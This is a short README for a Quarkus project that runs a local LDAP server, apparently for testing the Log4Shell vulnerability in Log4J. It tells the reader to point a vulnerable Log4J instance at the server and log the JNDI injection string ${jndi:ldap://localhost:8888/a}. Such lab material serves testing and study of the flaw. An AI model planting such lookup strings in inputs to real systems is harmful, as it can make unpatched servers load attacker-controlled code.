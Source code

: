 # SlyServer

This project uses Quarkus to run a simple LDAP server for hacking purposes

It's designed to be used in dev mode 

Start with 

```shell script
quarkus dev
```

Then point your vulnerable Log4J instance at it.  

Asuming default configuration  try logging 

${jndi:ldap://localhost:8888/a}  and see what turns up in this servers log and the vulnerable one.



